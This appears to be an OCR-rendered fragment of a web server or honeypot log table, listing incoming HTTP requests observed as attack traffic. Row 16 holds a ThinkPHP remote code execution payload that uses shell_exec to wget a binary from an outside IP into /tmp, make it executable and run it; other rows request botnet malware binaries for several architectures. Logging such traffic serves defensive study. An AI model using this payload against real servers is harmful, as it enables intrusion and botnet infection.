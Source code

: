 |  16 |                     4 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                                                                                                                                 |
|  17 |                     4 | GET /hiddenbin/boatnet.arc HTTP/1.1                                                                                                                                                                                                                                                                                                                           |
|  18 |                     4 | GET /hiddenbin/boatnet.ppc HTTP/1.1                                                                                                                                                                                                                                                                                                                           |
|  19 |                     4 | GET /bins/spim HTTP/1.1                                                                                                                                                                                                                                                                                                                                       |
|  20 |                     4 | GET /bins/k86m HTTP/1.1                                                                                                                                                                                                                                                                                                                                       |
|  21 |                     4 | GET /nsharm7 HTTP/1.1                                                                                                                                                                                                                                                                                                                                         |
|  22 |                     4 | GET /arm4 HTTP/1.1                                                                                                                                                                                                                                                                                                                                            |
|  23 |                     4 | GET /Yboats.i686 HTTP/1.1                                                                                                                                                                                                                                                                                                                                     |
|  24 |                     4 | GET /bins/sora.x86 HTTP/1.1                                                                                                                                                                                                                                                                                                                                   |
|  25 |                     4 | GET /Yboats.spc HTTP/1.1                                                                                                                                                                                                                                                                                                                                      |
|  26 |                     4 | GET /tmips HTTP/1.1                                                                                                                                                                                                                                                                                                                                           |
|  27 |                     4 | GET /vv/armv5l HTTP/1.1                                                                                                                                                                                                                                                                                                                                       |
|  28 |                     4 | GET /bins/main_mips HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
|  29 |                     4 | GET /bins/main_arm HTTP/1.1                                                                                                                                                                                                                                                                                                                                   |
|  30 |                     4 | GET /HideChaotic/ub8ehJSePAfc9FYqZIT6.m68k HTTP/1.1                                                                                                                                                                                                                                                                                                           |